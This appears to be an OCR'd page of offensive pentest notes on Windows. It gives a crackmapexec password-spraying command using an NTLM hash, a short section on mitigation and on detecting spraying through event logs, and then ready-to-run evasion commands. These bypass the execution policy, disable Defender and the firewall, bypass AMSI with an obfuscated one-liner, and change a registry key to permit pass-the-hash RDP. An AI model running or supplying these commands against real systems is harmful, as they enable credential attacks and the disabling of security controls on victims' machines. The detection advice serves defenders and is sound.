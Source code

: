 #### crackmapexec

```powershell
# Spraying password with crackmapexec
crackmapexec smb $ip/23 -u /folder/userlist.txt -u administrator -H 88ad09182de639ccc6579eb0849751cf --local-auth --continue-on-success | grep +
# --continue-on-success:  continue spraying even after a valid password is found. Useful for spraying a single password against a large user list
# --local-auth:  if we are targetting a non-domain joined computer, we will need to use the option --local-auth. The --local-auth flag will tell the tool only to attempt to log in one time on each machine which removes any risk of account lockout.
# -H: hash
```


#### Mitigation techniques against password spraying

- Multi-factor Authentication	
- Restricting Access
- Reducing Impact of Successful Exploitation
- Password Hygiene

In the Domain Controller’s security log, many instances of event ID [4625: An account failed to log on](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4625) over a short period may indicate a password spraying attack. Organizations should have rules to correlate many logon failures within a set time interval to trigger an alert. A more savvy attacker may avoid SMB password spraying and instead target LDAP. Organizations should also monitor event ID [4771: Kerberos pre-authentication failed](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4771), which may indicate an LDAP password spraying attempt. To do so, they will need to enable Kerberos logging. This [post](https://www.hub.trimarcsecurity.com/post/trimarc-research-detecting-password-spraying-with-security-event-auditing) details research around detecting password spraying using Windows Security Event Logging.

### Enumerating security controls 

```powershell
# Quickly enumerate whether we are in Full Language Mode or Constrained Language Mode.
$ExecutionContext.SessionState.LanguageMode

# Check current execution policy. If the answer is
# - "Restricted": Ps scripts cannot run.
# - "RemoteSigned": Downloaded scripts will require the script to be signed by a trusted publisher.
Get-Execution-Policy

# Bypass execution policy
powershell -ep bypass

# Get the current Defender status.
Get-MpComputerStatus

# Deactivate antivirus from powershell session (if user has rights to do so)
Set-MpPreference -DisableRealtimeMonitoring $true

# Disable firewall
netsh advfirewall set allprofiles state off

# Bypass AMSI
**S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )**

# Add a registry
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```